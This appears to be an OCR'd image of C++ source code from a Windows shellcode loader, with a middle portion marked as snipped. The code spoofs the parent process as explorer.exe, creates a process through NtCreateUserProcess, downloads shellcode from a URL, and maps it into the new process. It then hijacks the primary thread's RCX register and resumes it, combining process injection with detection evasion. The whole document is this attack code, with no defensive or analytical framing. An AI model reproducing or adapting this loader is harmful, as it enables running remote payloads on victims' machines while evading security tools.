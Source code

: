 ```
	AttributeList->Attributes[4].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS;
	AttributeList->Attributes[4].Size = sizeof(DWORD64);
	AttributeList->Attributes[4].ValuePtr = &policy;

	// Spoof Parent Process Id as explorer.exe
	DWORD trayPID;
	HWND trayWnd = FindWindowW(L"Shell_TrayWnd", NULL);
	GetWindowThreadProcessId(trayWnd, &trayPID);
	HANDLE hParent = OpenProcess(PROCESS_ALL_ACCESS, false, trayPID);
	if (hParent)
	{
		AttributeList->Attributes[5].Attribute = PS_ATTRIBUTE_PARENT_PROCESS;
		AttributeList->Attributes[5].Size = sizeof(HANDLE);
		AttributeList->Attributes[5].ValuePtr = hParent;
	}
	else
	{
		AttributeList->TotalLength -= sizeof(PS_ATTRIBUTE);
	}

	// Create the process
	HANDLE ntHandle = NULL, ntThread = NULL;
	ntCreateUserProcess(&ntHandle, &ntThread, MAXIMUM_ALLOWED, MAXIMUM_ALLOWED, &objAttr, &objAttr, 0x00000200, 0x00000001, ProcessParameters, &CreateInfo, AttributeList);

	// download shellcode
	std::vector<BYTE> shellcode = DownloadShellcode(url, path);

	// create section in local process
	HANDLE localSection;
	LARGE_INTEGER localszSection = { shellcode.size() };

	[snip]

	// Get thread context of primary thread
	CONTEXT threadContext;
	threadContext.ContextFlags = CONTEXT_INTEGER;
	ntGetContextThread(ntThread, &threadContext);

	// Update RCX register
	threadContext.Rcx = (DWORD64)hRemoteAddress;

	// Set the modified context back to the primary thread
	ntSetContextThread(ntThread, &threadContext);

	// Resume the thread
	ntResumeThread(ntThread, NULL);
	
	// unmap memory from local process
	status = ntUnmapViewOfSection(
	GetCurrentProcess(),
	hLocalAddress);

	// Clean up injected process
	if(hParent) CloseHandle(hParent);
	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlFreeHeap(RtlProcessHeap(), 0, stdHandleInfo);
	RtlFreeHeap(RtlProcessHeap(), 0, clientId);
	RtlFreeHeap(RtlProcessHeap(), 0, SecImgInfo);
 	RtlDestroyProcessParameters(ProcessParameters);

	// Close Debug process
	CloseHandle(process.hProcess);
```